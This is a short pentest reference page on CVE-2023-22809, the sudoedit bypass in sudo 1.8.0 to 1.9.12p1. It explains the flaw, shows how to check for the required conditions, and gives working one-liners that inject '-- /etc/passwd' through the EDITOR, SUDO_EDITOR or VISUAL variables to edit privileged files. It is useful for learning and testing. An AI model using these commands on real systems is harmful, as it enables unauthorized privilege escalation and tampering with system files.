 ```yaml
---
description: CVE-2023-22809
---
```


# Sudoedit Bypass

## Theory

Sudo uses user-provided environment variables to let its users select their editor of choice. The content of these variables extends the actual command passed to the sudo\_edit() function. However, the latter relies on the presence of the `--` argument to determine the list of files to edit. The injection of an extra `--` argument in one of the authorized environment variables can alter this list and lead to privilege escalation by editing any other file with privileges of the RunAs user. This issue occurs after the sudoers policy validation. - [Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

The vulnerability affect sudo versions **1.8.0** to **1.9.12p1**.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To exploit, sudo version must be vulnerable (**1.8.0** to **1.9.12p1**)

```bash
$ sudo -V
Sudo version 1.8.0
```

You must be able to run sudoedit with sudo

```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) sudoedit /etc/custom/service.conf
```

And env\_delete shouldn't be set to affected variables:

```bash
env_delete+="SUDO_EDITOR VISUAL EDITOR"
```
{% endtab %}

{% tab title="Exploit" %}
To exploit it, we may use one of the following commands:

```bash
EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

SUDO_EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

VISUAL='vim -- /etc/passwd' sudoedit /etc/custom/service.conf
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}
